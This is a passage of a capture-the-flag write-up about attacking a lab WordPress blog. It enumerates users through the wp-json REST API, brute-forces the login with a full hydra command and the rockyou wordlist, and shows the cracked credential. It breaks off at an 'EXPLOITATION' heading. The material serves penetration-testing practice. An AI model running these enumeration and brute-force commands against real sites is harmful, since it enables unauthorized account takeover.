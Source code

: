 ```json
    "name": "Karen Wheeler",
    "url": "",
    "description": "",
    "link": "http://blog.thm/author/kwheel/",
    "slug": "kwheel",
    "avatar_urls": {
      "24": "http://0.gravatar.com/avatar/3e7bf1e5f26496543c964dc04515bb6a?s=24&d=mm&r=g",
      "48": "http://0.gravatar.com/avatar/3e7bf1e5f26496543c964dc04515bb6a?s=48&d=mm&r=g",
      "96": "http://0.gravatar.com/avatar/3e7bf1e5f26496543c964dc04515bb6a?s=96&d=mm&r=g"
    },
    "meta": [],
    "_links": {
      "self": [
        {
          "href": "http://blog.thm/wp-json/wp/v2/users/3"
        }
      ],
      "collection": [
        {
          "href": "http://blog.thm/wp-json/wp/v2/users"
        }
      ]
    }
  }
]
```

Let's grep for `slug`:

```
curl http://blog.thm/wp-json/wp/v2/users -s | jq | grep slug
    "slug": "bjoel",
    "slug": "kwheel",
```

We got two users, what about trying to bruteforce with hydra:

```
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=kwheel&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered"
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250327183359.png)

We got it:

```
kwheel:cutiepie1
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250328145550.png)

## EXPLOITATION
